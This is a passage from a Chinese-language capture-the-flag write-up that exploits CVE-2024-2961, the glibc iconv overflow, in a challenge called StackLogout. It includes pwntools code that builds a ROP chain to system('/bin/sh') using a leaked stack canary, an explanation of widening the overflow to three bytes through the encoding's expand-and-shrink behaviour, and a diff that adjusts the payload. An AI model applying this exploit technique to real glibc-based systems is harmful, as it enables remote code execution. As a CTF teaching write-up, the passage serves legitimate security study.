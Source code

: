 ```python

    gadgets = ROP(libc)
    logout(b'Trigger CVE-2024-2961!!'.ljust(0x2d) + '劄'.encode(), False, False, 
             # system("bin/sh")
        flat(gadgets.rdi.address, next(libc.search(b'/bin/sh')), libc.symbols['system'],
             # _exit(0)
             gadgets.rdi.address, 0, libc.symbols['_exit'],
             0x48, canary, stack - 8))

    sh.clean()
    sh.interactive()
    sh.close()
```

## Overflow more!

可以注意到，原来的博客里说，可以溢出1-3字节，但是此刻我们只溢出了1字节，有没有办法能多溢出呢？
答案是有的。众所周知，中文utf-8占3字节，但是gb2312只占2字节稍微研究一下这个编码可知，
当字符集发生变换，从某个字面跳到某个未出现的字面时，会写入能溢出的4个控制字符，
我称这个写入控制字符的过程为 **膨胀** 。同时，如果转换很多中文字符，那么在转换过程中则会发生
**收缩** 。

假设输入缓冲区和输出缓冲区一致，如果在末尾加一个中文字符，则会溢出4(控制字符)-3(utf-8中文)个字节，
但是倘若我们先转换成中文，并加上大量一样的中文字，则会先膨胀再收缩，实现输出比输入短。
此时再在后面添加一个其他字面的中文，就可以实现3字节溢出。如下图所示，末尾的控制字符超过输入缓冲区
3字节，符合条件：

![overflow more bytes](/assets/cbctf2024/morebytes.png)

不难看到我在重新读入时`toread & 0x1f8`，倘若溢出了2-3字节，则可以溢出写更多字节，变成ret2libc了。
不过由于`who`在退出时还会做一个memcpy，将`rbp - 0x40`位置的字节复制到`rbp + 0x10`，
因此我们溢出的字节的结尾会被payload开头的一部分覆写，需要调整一下发送的payload。
我把patch贴在这里，接下来怎么打ret2libc留给读者思考。

```diff
diff --git a/Pwn/StackLogout/StackLogout.py b/Pwn/StackLogout/StackLogout.py
--- a/Pwn/StackLogout/StackLogout.py
+++ b/Pwn/StackLogout/StackLogout.py
@@ -46,9 +46,9 @@ def payload(lo: int):
     success(GOLD_TEXT(f"Leak canary: {canary:#x}"))

     gadgets = ROP(libc)
-    logout(b'Trigger CVE-2024-2961!!'.ljust(0x2d) + '劄'.encode(), False, False,
+    logout(b'Trigger CVE-2024-2961!!'.ljust(0x24) + '湿湿湿䂚'.encode(), False, False,
              # system("bin/sh")
         flat(gadgets.rdi.address, next(libc.search(b'/bin/sh')), libc.symbols['system'],
              # _exit(0)
              gadgets.rdi.address, 0, libc.symbols['_exit'],
              0x48, canary, stack - 8))
```

## 参考
